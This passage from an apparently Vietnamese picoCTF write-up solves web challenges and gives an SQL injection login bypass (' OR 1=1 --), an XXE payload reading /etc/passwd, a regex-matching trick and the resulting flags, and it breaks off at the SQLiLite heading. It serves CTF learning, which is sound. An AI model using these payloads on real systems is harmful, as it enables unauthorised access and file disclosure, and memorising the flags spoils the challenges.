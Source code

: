 ```' OR 1=1 --``` để leak ra tất cả id từ đó đăng nhập vào được
![image](https://hackmd.io/_uploads/HJDawvvE1x.png)

![image](https://hackmd.io/_uploads/rymCDDPEke.png)

Qua đó mình có thể đoán web bị lỗi xxe nên mình giải bài này bằng payload xxe sau 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

Và chúng ta đã có flag

![image](https://hackmd.io/_uploads/BJCQuDvVke.png)

Flag : picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}

## MatchTheRegex

![image](https://hackmd.io/_uploads/S1OnOvD4Jg.png)

#### Hints

* No hint

#### Solution

Đề bài cho ta một trang web có một input để nhập vào

![image](https://hackmd.io/_uploads/ryXCOPvNkx.png)

Mình thử mở devtools và xem được đoạn script sau dùng để request lên và kiểm tra có match regex **^p.....F!?** không

![image](https://hackmd.io/_uploads/H19CuPwV1l.png)

Ở đây regex này có nghĩa là phần đầu của chuỗi ta nhập phải có dạng "p.....F!?" nên mình cứ nhập lại và thêm bao nhiêu ký tự tuỳ thích thôi, không thêm cũng được :v 

![image](https://hackmd.io/_uploads/SJ5EKwPNye.png)

Flag: picoCTF{succ3ssfully_matchtheregex_f89ea585}

## SQLiLite

![image](https://hackmd.io/_uploads/SkUeqPPV1x.png)

#### Hints

* SQL Injection

#### Solution

